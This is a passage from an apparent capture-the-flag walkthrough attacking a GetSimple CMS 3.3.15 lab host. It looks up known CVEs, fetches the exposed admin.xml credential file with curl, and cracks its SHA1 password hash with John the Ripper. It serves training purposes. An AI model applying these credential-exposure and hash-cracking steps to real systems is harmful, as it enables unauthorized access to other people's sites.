 there is a "Files" section in the admin portal. so let's see if we can upload a php file here to get remote code execution this way. unfortunately, the upload button does not do anything... also, php code injected into a new article is properly escaped... this is not the approach we should be taking.

at this point i decided to google for "getsimple cms vulnerabilities" and found several here: https://www.cvedetails.com/vulnerability-list/vendor_id-16222/product_id-36410/Get-simple-Getsimple-Cms.html and according to the admin panel, the blog runs Version 3.3.15 of GetSimple CMS. so we have

- https://www.cvedetails.com/cve/CVE-2022-41544/
- https://www.cvedetails.com/cve/CVE-2019-11231/ (which sounds promising, as its an exact version match)

furthermore, digging into this report, it's also stated that

> authentication can be bypassed. According to the official documentation for installation step 10, an admin is required to upload all the files, including the .htaccess files, and run a health check. However, what is overlooked is that the Apache HTTP Server by default no longer enables the AllowOverride directive, leading to data/users/admin.xml password exposure. The passwords are hashed but this can be bypassed by starting with the data/other/authorization.xml API key.

```
$ curl http://gettingstarted.htb/data/users/admin.xml | xmllint --format -

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   221  100   221    0     0   3545      0 --:--:-- --:--:-- --:--:--  3564
<?xml version="1.0" encoding="UTF-8"?>
<item>
  <USR>admin</USR>
  <NAME/>
  <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
  <EMAIL>admin@gettingstarted.com</EMAIL>
  <HTMLEDITOR>1</HTMLEDITOR>
  <TIMEZONE/>
  <LANG>en_US</LANG>
</item>
```

we have already guessed the password correctly, but it would also be an option to `john the ripper`

```
$ echo -n "admin:d033e22ae348aeb5660fc2140aec35850c4da997" > admin-hash.txt
$ john -w=/usr/share/wordlists/rockyou.txt admin-hash.txt

Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 ASIMD 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (admin)
1g 0:00:00:00 DONE (2023-12-23 19:06) 100.0g/s 1982Kp/s 1982Kc/s 1982KC/s alcala..VINCENT
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

